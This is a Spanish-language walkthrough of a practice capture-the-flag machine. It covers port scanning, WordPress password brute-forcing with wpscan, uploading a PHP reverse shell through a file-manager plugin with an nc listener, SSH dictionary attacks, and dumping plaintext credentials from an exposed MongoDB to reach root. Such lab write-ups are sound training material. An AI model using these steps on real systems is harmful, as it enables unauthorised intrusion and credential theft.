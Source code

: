 # Fase 1- Tanteo

En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp (SSH ):** OpenSSH 8.2p1
2. **80/tcp (HTTP ):** Apache httpd 2.4.52
3. **27017/tcp (MongoDB ):** MongoDB 7.0.9

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a la página por defecto de Apache Ubuntu.
![[Pasted image 20240619194959.png]]

#### Fase 2- Exploración

#### feroxbuster
```python
301      GET        9l       28w      312c http://172.17.0.2/wordpress
```
Encontramos un `/wordpress`.

#### /Wordpress
![[Pasted image 20240619195238.png]]
Es una web un poco destruida...

![[Pasted image 20240619195254.png]]
Lo tenemos que agregar al `/etc/hosts`.

![[Pasted image 20240619200009.png]]
Buscando en la pagina encuentro una parte de la pagina que fue creada por un usuario llamado `chocolate`.

![[Pasted image 20240619200049.png]]
Es un autor... Estaría interesante probarlo en wordpress.

# Fase 3- Explotación

#### Wordpress R.I.P
![[Pasted image 20240619200139.png]]
Probamos el usuario con una contraseña cualquiera y nos dice que la contraseña que hemos introducido para el usuario `chocolate` no es correcta. Esto significa que el usuario existe dentro de wordpress.

```python
wpscan --url http://collections.dl/wordpress/ --usernames chocolate --passwords /usr/share/wordlists/rockyou.txt
```
Con este comando vamos a realizarle fuerza bruta al usuario `chocolate` con el diccionario `rockyou`.
```python
| Username: chocolate, Password: chocolate
```
Y encontramos la contraseña `chocolate`.

#### File Manager
![[Pasted image 20240619200416.png]]
Ahora para la explotación vamos a agregar el plugin `File Manager`.

![[Pasted image 20240619200520.png]]
```python
http://collections.dl/wordpress/wp-content/themes/twentytwentyfour/
```
Si vamos a esta url deberíamos ver un directory listing.

![[Pasted image 20240619200632.png]]
En el `File Manager` vamos a la misma carpeta y creamos un archivo `txt`.

![[Pasted image 20240619200756.png]]
Lo guardamos como un `.php` y dentro ponemos el codigo de una reverse shell. Link: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Nos ponemos en modo escucha con el siguiente comando:
```python
❯ nc -nlvp <puerto>
```
Donde `<puerto>` fue el puerto que pusimos en el codigo.

![[Pasted image 20240619201020.png]]
Y le ejecutamos el archivo, en este caso yo le puse `shell.php`.

![[Pasted image 20240619201058.png]]
Y ya estaríamos dentro!.

# Fase 4- Privilegios

#### sudo -l
![[Pasted image 20240619201233.png]]
Despues de realizar el tratamiento de la TTY, no nos deja ejecutar el comando `sudo -l` ni encontramos ningún binario con el comando `find / -perm -4000 -user root 2>/dev/null`
así que tocara buscar...

#### ssh
![[Pasted image 20240619202002.png]]
Encontramos los usuarios `chocolate` y `dbadmin`. Haremos ataque de diccionario al ssh con los usuarios.

![[Pasted image 20240619202158.png]]
Y encontramos la contraseña `estrella` para el usuario `chocolate`.

#### mongodb
![[Pasted image 20240619202540.png]]
En el directorio `/tmp` encontramos un archivo llamado `mongodb-27017.sock` y al ejecutar el comando `ps -e -f` para listar que se esta ejecutando en el sistema vemos lo siguiente:
```python
root           1       0  0 22:46 ?        00:00:00 /bin/sh -c service ssh start &&     service mariadb start &&     service apache2 start ; sleep 5 &&     mongod --bind_ip_all --quiet &     sleep 10 &&  
```
Tiene el parametro `--bind_ip_all` activo, esto significa que escucha en todas las interfaces de red disponibles. Esto significa que MongoDB aceptará conexiones en cualquier dirección IP asignada a la máquina en la que se está ejecutando.

```python
❯ mongo --host 172.17.0.2 --port 27017
> show databases;
accesos  0.000GB
admin    0.000GB
config   0.000GB
local    0.000GB
> use accesos;
switched to db accesos
> show tables;
usuarios
> db.usuarios.find().pretty();
{
	"_id" : ObjectId("6645f4456682cdae1b46b799"),
	"nombre" : "dbadmin",
	"contraseña" : "chocolaterequetebueno123"
}
> 
```
Nos conectamos y encontramos una base llamada `accesos` y con un nombre que es el mismo que vimos anteriormente como el usuario `www-data` y una contraseña.

#### dbadmin
![[Pasted image 20240619203553.png]]
Y listo! somos el usuario dbadmin.

![[Pasted image 20240619203724.png]]
No encontramos nada raro en los binarios, y comprobamos contraseñas encontradas anteriormente y después de varios intentos somos root!. Contraseña del root: `chocolaterequetebueno123`
